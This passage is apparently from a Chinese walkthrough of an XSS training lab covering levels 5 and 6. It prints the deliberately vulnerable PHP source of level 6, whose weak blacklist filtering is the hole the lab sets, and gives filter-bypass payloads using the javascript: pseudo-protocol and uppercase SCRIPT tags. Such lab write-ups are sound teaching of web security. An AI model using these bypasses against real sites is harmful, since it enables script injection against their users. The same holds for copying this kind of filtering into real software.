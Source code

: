 很多事件都带有 on 这两个字符，这意味着我们需要找到别的方法触发XSS。
幸运地是，a 标签的 href 属性支持 javascript 伪协议，这使得我们可以在其中嵌入 JS 代码并执行。

```php
"> <a href="javascript:alert(1)">//

test"><a href="javascript:alert(1)
```

#### 第六关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level7.php?keyword=move up!"; 
}
</script>
<title>欢迎来到level6</title>
</head>
<body>
<h1 align=center>欢迎来到level6</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level6.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>

```

注意到接收参数之后并没有转为小写，所以可以采用大写绕过。因为 html 对大小写不敏感。由于传入的参数最后是输出在属性中，所以先闭合 value 属性。

```php
"><SCRIPT>alert(1)</SCRIPT>
```
